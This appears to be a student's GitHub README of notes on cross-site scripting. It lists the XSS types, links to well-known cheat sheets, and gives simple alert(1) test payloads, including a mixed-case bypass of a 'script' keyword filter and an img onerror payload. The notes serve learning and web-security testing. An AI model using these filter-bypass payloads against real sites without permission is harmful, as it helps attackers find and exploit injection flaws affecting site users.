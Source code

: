 # XSS

Cross-site scripting is a type of security vulnerability that can be found in some web applications. XSS attacks enable attackers to 
inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access 
controls such as the same-origin policy

[Type OF XSS](#type-of-xss)

[Resource](#resource)

[Note](#note)

[LAB](#LAB)

## Type OF XSS

1. Stored XSS 
2. Reflected XSS 
3. DOM-based XSS
4. XSS Discovery and Prevention

## Resource 

    https://cheatsheetseries.owasp.org/
    https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    

## Note 

Check source code and add paylods check which type of error and block word and bypass

1. Open source code and enter paylods in urls like <script>alert(1)</script> script reflecte like

    alert(1)!</p>
       
So script word is block so modify script word and try bypass use this paylods 

    <sCript>alert(1)</sCRIpt> 
    
This paylods enter the urls and check source code  

     <sCript>alert(1)</sCRIpt>!</p>
     
This is Vulnerablity

2. Open source code and enter paylods in urls like <script>alert(1)</script> script so error message script is complect block use HTML code like

        <img src='zzzz' onerror='alert(1)' />
        
3. Open source code and enter paylods in urls like <script>alert(1)</script> script so error try onlyfor script bedaut alert(1) <script></script> check source code like 

       <script></script>!</p>
       